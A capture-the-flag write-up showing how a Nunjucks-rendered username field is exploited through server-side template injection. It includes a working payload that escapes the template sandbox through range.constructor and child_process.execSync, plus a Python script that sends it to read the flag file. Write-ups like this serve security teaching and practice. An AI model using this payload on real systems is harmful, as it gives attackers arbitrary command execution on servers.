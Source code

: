 # SunSet introspecTIon

Challenge Description:

> Watching the sunset with nunjucks to make sure your server side is always protected. The flag is on /app/flag.

## Analyzing the website

Accessing the website gives us a input field for giving our username which just echoes it back to us when we submit it.

![echo username](username.PNG)

According to the description,the server seems to be using the nunjucks templating engine which can be exploitable for SSTI because of unsanitized user input(the username).

We can try to get a proof of concept by using the below command:

command used --> `{{7*7}}`

![poc1](poc1.PNG)

We see that the field is injectable because we get the output back as 49.

![poc2](poc2.PNG)

The below link provides a way for getting RCE by breaking out of the template engine's syntax.We try calling child_process using the templating engine's callables(range,cycler).From there we can call execsync to execute commands.
[nunjucks rce](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)

We can automate it by the below script which uses the GET paramters to send the payload and get the output.

```python
import requests
from bs4 import BeautifulSoup

payload = "{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /app/flag')\")()}}"
url = f"http://cybersecweek.ua.pt:2003/display?payload={payload}"

r = requests.get(url)
soup = BeautifulSoup(r.text, 'html.parser')

output = str(soup.find_all('h1')[0]).replace('<h1>','').replace('</h1>','')
print(output)
```

![flag output](script_output.PNG)